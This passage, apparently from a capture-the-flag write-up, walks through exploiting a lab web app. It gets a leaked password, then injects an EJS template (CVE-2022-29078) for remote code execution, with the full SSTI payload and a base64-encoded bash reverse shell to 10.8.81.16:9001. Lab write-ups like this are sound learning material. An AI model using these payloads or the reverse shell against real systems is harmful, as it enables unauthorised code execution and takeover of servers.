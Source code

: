 We notice on the url a `c` parameter with a number. Changing to a higher value results in more messages.

![password](5.png)

We got the password of `Gayle Bev`

After we log in as that user, we get access to the `settings` page.

![setting](6.png)

On this page we can reset the password of users.

![test](7.png)

Tried to do some sql injections to cause an error but it didn't work.

## **Foothold**

Let's launch burp and inspect it.

![burp](8.png)

Sending the `name` parameter without the password cause an error.

The error comes from `.ejs` files.

Searching on google for `ejs injection` we find this [article](https://eslam.io/posts/ejs-server-side-template-injection-rce/) explaining a SSTI vulnerability in `EJS` [CVE-2022-29078](https://nvd.nist.gov/vuln/detail/CVE-2022-29078).

The payload provided is `settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('command');s` which we add as a post parameter.

![ping](9.png)

This injection is blind but I confirmed it by using the ping command and I successfully received icmp packets.

Now let's get a reverse shell. I used a base64 encoded of the following command

```bash
/bin/bash -i >& /dev/tcp/10.8.81.16/9001 0>&1
```

And I execute it with:

```bash
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjguODEuMTY1LzkwMDEgMD4mMQ==|base64 -d|bash
```

The complete payload now is:

```terminal
settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjguODEuMTY1LzkwMDEgMD4mMQ==|base64 -d|bash');s
```

![revshell](10.png)

